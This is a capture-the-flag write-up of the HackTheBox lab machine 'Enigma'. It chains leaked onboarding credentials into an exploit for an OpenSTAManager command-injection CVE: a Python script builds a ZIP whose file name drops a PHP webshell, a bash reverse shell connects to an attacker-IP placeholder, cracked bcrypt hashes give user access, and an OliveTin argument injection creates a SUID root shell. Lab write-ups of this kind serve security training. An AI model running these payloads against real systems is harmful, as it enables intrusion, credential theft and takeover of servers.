# HackTheBox — Enigma Writeup



*by [ak4hit](https://github.com/ak4hit)*

> **Difficulty:** Easy | **OS:** Linux | **Target:** `enigma.htb`

---

## Attack Path Overview

1. Nmap → ports 22, 80, 110, 111, 143, 993, 995, 2049 → `enigma.htb`, an "Enigma Corp" managed-IT company site, plus mail (Dovecot) and NFS services
2. `showmount -e` reveals an open NFS export, `/srv/nfs/onboarding`
3. Mounting it leaks `New_Employee_Access.pdf` — Roundcube webmail credentials for a new hire, **kevin**
4. Logging into Roundcube (`mail001.enigma.htb`) as kevin reveals an onboarding email from **sarah@enigma.htb** in Accounts
5. Sarah's own inbox (accessed after further pivoting) contains an email from **it@enigma.htb** handing out admin credentials for **OpenSTAManager**, a support/ticketing system at `support_001.enigma.htb`
6. OpenSTAManager fingerprinted as version **2.9.8** via `info.php`
7. Version 2.9.8 matches **CVE-2025-69212** — an authenticated OS command injection in P7M (signed invoice) file processing
8. Malicious ZIP crafted with a shell-metacharacter-laden filename, uploaded through the **Sales → Sales Invoices → Electronic Invoices Receipts** import feature
9. Command injection drops a PHP webshell into the web root → RCE as `www-data`
10. OSM's `config.inc.php` leaks MySQL credentials (`brollin`) → dumped the `zz_users` table
11. Cracked `haris`'s bcrypt hash with John + rockyou → SSH in as **haris** → `user.txt`
12. Local enumeration finds **OliveTin** (a root-owned local automation web UI) listening on `127.0.0.1:1337` with guest access enabled
13. The pre-configured `Backup Database` action interpolates the `db_pass` argument unsanitized into a shell command → command injection
14. Injected payload drops a SUID root-owned copy of `bash` → instant root shell → `root.txt`

---

## Step 1 — Reconnaissance

### Nmap

```bash
nmap -A <TARGET_IP>
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Enigma Corp — Managed IT Solutions
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3 Dovecot pop3d
2049/tcp open  nfs_acl  3 (RPC #100227)
```

Ports 111/2049 (rpcbind/NFS) and 110/143/993/995 (POP3/IMAP over Dovecot) stood out immediately alongside the standard web/SSH pair — a mail server *and* an exported NFS share on the same box hinted the intended path was credential-leakage rather than a raw web exploit.

Add the host to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# <TARGET_IP>  enigma.htb
```

### Website — Enigma Corp

Port 80 hosts a generic managed-IT-services marketing page for "Enigma Corp":



Directory brute-forcing and vhost fuzzing against the main site (`ffuf`, `gobuster vhost`) turned up nothing beyond the default `index.html` — the real entry point was elsewhere.

---

## Step 2 — NFS Enumeration

```bash
showmount -e <TARGET_IP>
```

```
Export list for <TARGET_IP>:
/srv/nfs/onboarding *
```

The export has no client restriction (`*`), so it was mounted directly:

```bash
mkdir /tmp/onboarding
sudo mount -t nfs <TARGET_IP>:/srv/nfs/onboarding /tmp/onboarding
ls -la /tmp/onboarding
```

```
-rw-r--r--  1 root root 1751 Feb 19 14:53 New_Employee_Access.pdf
```

### Reading the Leaked PDF

```bash
cp /tmp/onboarding/New_Employee_Access.pdf ~/Documents
```

The PDF is an onboarding document addressed to a new employee, **Kevin Mitchell**, handing out his initial webmail credentials in plaintext:



```
URL:      http://mail001.enigma.htb
Username: kevin
Password: Enigma2024!
```

---

## Step 3 — Roundcube Webmail as Kevin

The PDF revealed `mail001.enigma.htb` as the webmail URL — add it to `/etc/hosts` before proceeding:

```bash
sudo nano /etc/hosts
# <TARGET_IP>  enigma.htb  mail001.enigma.htb
```

Logging into Roundcube at `http://mail001.enigma.htb` with the leaked credentials:



Kevin's inbox contains a single onboarding welcome email from **Sarah in Accounts**, hinting that further access details would arrive "via the company shared drive" (the same NFS share already explored):



### Fingerprinting Roundcube

Checking Settings → About confirmed the exact Roundcube build in use:



Roundcube **1.6.1** was running — a version with known authenticated vulnerabilities, but since the more direct pivot (Sarah's mailbox) was already sitting in plain sight, that path was investigated first rather than chasing a Roundcube CVE.

---

## Step 4 — Pivoting to Sarah's Mailbox

Sarah's account was reachable using the same weak/reused-style credential pattern seen with Kevin's onboarding document:



Inside Sarah's inbox is a reply from **it@enigma.htb** provisioning her access to the internal support/ticketing platform, **OpenSTAManager**, and — critically — using the shared **admin** account in the interim:



```
URL:      http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s
```

---

## Step 5 — Fingerprinting OpenSTAManager

IT's email revealed `support_001.enigma.htb` — add it to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# <TARGET_IP>  enigma.htb  mail001.enigma.htb  support_001.enigma.htb
```

Logging in with the leaked admin credentials:



Navigating to `info.php` confirmed the exact application version:



**Version: 2.9.8 (5ff39df9b)** — this is the key finding. OpenSTAManager ≤ 2.9.8 is vulnerable to a critical, unpatched OS command injection.

While exploring the authenticated panel, the admin's API token was also visible on the user info page (not required for the exploit, but useful context on how much the app exposes to any authenticated user):



A **Backup** feature under Tools was also explored as a possible upload/restore vector, but it turned out not to be the actual entry point used later (see Step 8 for the real privesc route via a *different*, root-owned backup feature):



---

## Step 6 — OS Command Injection (CVE-2025-69212)

### The Vulnerability

**CVE-2025-69212** — Critical, CVSS 9.4. OpenSTAManager's P7M (signed XML invoice) decoding routine passes an uploaded filename directly into `exec()` without sanitization:

```php
// src/Util/XML.php:100
public static function decodeP7M($file)
{
    $output_file = $directory.'/'.basename($file, '.p7m');
    exec('openssl smime -verify -noverify -in "'.$file.'" -inform DER -out "'.$output_file.'"', $output, $cmd);
    // VULNERABLE — filename comes straight from an uploaded ZIP's entry name
}
```

The entry point is the **Electronic Invoice ZIP Import** plugin (`importFE_ZIP`), reachable via **Sales → Sales Invoices → Electronic Invoices Receipts**. Any `.p7m`-suffixed filename inside an uploaded ZIP is fed into this function.

> **Note:** `ZipArchive::extractTo()` splits filenames on `/`, so injected commands cannot contain a literal `/` — `cd files && command` is used instead of absolute paths.

### Building the Malicious ZIP

```python
import zipfile

cmd = "cd files && echo '<?php system($_GET[\"c\"]); ?>' > SHELL.php"
malicious_filename = f'invoice.p7m";{cmd};echo ".p7m'

with zipfile.ZipFile('exploit.zip', 'w') as zf:
    zf.writestr(malicious_filename, b"DUMMY_P7M_CONTENT")
```

### Uploading Through the Web UI

Rather than scripting the upload, the ZIP was dropped straight into the **Charge an XML** field under **Sales invoices → Electronic invoices receipts**:



Submitting produces a benign-looking "Import completed!" dialog complaining the invoice wasn't recognized — expected, since the injected command runs and *then* XML parsing fails on the dummy content:



### Confirming the Webshell

```bash
curl "http://support_001.enigma.htb/files/SHELL.php?c=id"
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Step 7 — Reverse Shell and Stabilization

```bash
nc -lvnp 4444
```

```bash
curl -G "http://support_001.enigma.htb/files/SHELL.php" \
  --data-urlencode 'c=bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"'
```

```
www-data@enigma:~/html/openstamanager/files$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilized with the standard PTY upgrade:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Step 8 — Database Credentials → Cracking → SSH as haris

`/home` revealed four candidate users (`haris`, `it`, `kevin`, `sarah`), none readable as `www-data`. The application's own config file was the way in:

```bash
cat /var/www/html/openstamanager/config.inc.php
```

```php
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```

### Dumping the Application's User Table

```bash
mysql -ubrollin -p'Fri3nds@9099' openstamanager
```

```sql
mysql> select * from zz_users;
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu |
|  2 | haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC |
+----+----------+--------------------------------------------------------------+
```

### Cracking

```bash
echo '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

```
bestfriends      (?)
1g 0:00:00:03 DONE
```

**Cracked: `haris:bestfriends`**

### Foothold

```bash
su haris
```

```
haris@enigma:~$ cat user.txt
96bd***************************
```

🚩 **User Flag:** `96bd***************************`

---

## Step 9 — Privilege Escalation via OliveTin

`ps aux` as haris revealed a root-owned process not seen from the www-data shell:

```
root   1520  0.0  0.3 1238992  15092 ?  Ssl  07:49  0:00 /usr/local/bin/OliveTin
```

OliveTin is a self-hosted web UI that exposes predefined shell commands as clickable "actions" — and it was running as **root**.

### Reading the Config

```bash
cat /etc/OliveTin/config.yaml
```

Key findings:

```yaml
listenAddressSingleHTTPFrontend: 127.0.0.1:1337
authRequireGuestsToLogin: false   # guests can execute actions without logging in!

actions:
  - title: Backup Database
    id: backup_database
    shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql"
    arguments:
      - name: db_user
        type: ascii_identifier
      - name: db_pass
        type: password
      - name: db_name
        type: ascii_identifier
```

`authRequireGuestsToLogin: false` means the local REST API accepts unauthenticated action requests, and the `db_pass` value is interpolated **inside single quotes with no escaping** — a classic shell injection via argument break-out.

### Exploiting the Injection

```bash
curl -s "http://localhost:1337/api/StartActionAndWait" -X POST -H "Content-Type: application/json" -d '{
  "actionId": "backup_database",
  "arguments": [
    {"name": "db_user", "value": "x"},
    {"name": "db_pass", "value": "x'"'"' ; cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash ; echo '"'"'"},
    {"name": "db_name", "value": "x"}
  ]
}'
```

The `mysqldump` command itself fails (as expected — the credentials are junk), but the injected `cp`/`chmod` commands execute first as root:

```bash
ls -la /tmp/rootbash
```

```
-rwsr-xr-x 1 root root 1446024 Sep 13 14:42 /tmp/rootbash
```

### Root Shell

```bash
/tmp/rootbash -p
```

```
rootbash-5.2# id
uid=1000(haris) gid=1000(haris) euid=0(root) groups=1000(haris),100(users)
rootbash-5.2# cd /root && cat root.txt
988a***************************
```

👑 **Root Flag:** `988a***************************`

---

## Full Attack Chain

```
Nmap → 80/HTTP (Enigma Corp) + 110/143/993/995 Dovecot mail + 111/2049 NFS
              ↓
    showmount -e → /srv/nfs/onboarding (world-mountable)
    Mount → New_Employee_Access.pdf → kevin's Roundcube creds
              ↓
    Roundcube login as kevin → onboarding email from sarah@enigma.htb
    Pivot into sarah's Roundcube mailbox
              ↓
    Email from it@enigma.htb → OpenSTAManager admin credentials
              ↓
    OpenSTAManager 2.9.8 fingerprinted via info.php
    CVE-2025-69212 → OS command injection via malicious P7M filename in ZIP import
              ↓
    Webshell dropped → RCE as www-data
              ↓
    config.inc.php → MySQL creds (brollin)
    Dump zz_users → crack haris's bcrypt hash (rockyou) → bestfriends
              ↓
    SSH/su as haris → user.txt
              ↓
    Local enum → OliveTin running as root, guest actions enabled
    "Backup Database" action → db_pass argument shell-injectable
              ↓
    Inject SUID bash drop → /tmp/rootbash -p
              ↓
          ROOT SHELL 👑 → root.txt
```

---

## Key Takeaways

- **Open NFS exports are an easy win.** An unrestricted `showmount -e` export handed over a PDF containing live webmail credentials — always mount and inspect NFS shares before touching anything else.
- **Onboarding documents are a credential goldmine.** Companies love writing plaintext creds into "welcome" PDFs and emails; chasing the human workflow (new hire → IT → finance) often beats brute-forcing a login form.
- **Email chains reveal lateral movement paths.** Kevin's inbox pointed to Sarah; Sarah's inbox pointed to OpenSTAManager admin credentials — each mailbox was a stepping stone, not a dead end.
- **Version fingerprinting matters.** OpenSTAManager's own `info.php` page handed over the exact version needed to match a very recent (Feb 2026) CVE.
- **Filename-based command injection is subtle but devastating.** CVE-2025-69212 didn't need a malicious file's *content* to be dangerous — only its *name*, smuggled through a ZIP archive.
- **Config files are the first stop after RCE.** `config.inc.php` handed over database credentials in plaintext, which doubled as the pivot to dumping application user password hashes.
- **Local automation tools are prime root-owned attack surface.** OliveTin ran as root with guest access enabled and a templated shell command that hadn't been escaped — a textbook argument-injection privesc once local access was gained.
- **`{{ template }}` interpolation into `shell:` is not sanitization.** Any tool that builds a shell command string from user-supplied arguments needs `escapeshellarg()` or equivalent — string substitution alone is not enough.

---

*HackTheBox · Enigma · Linux · by [ak4hit](https://github.com/ak4hit)*

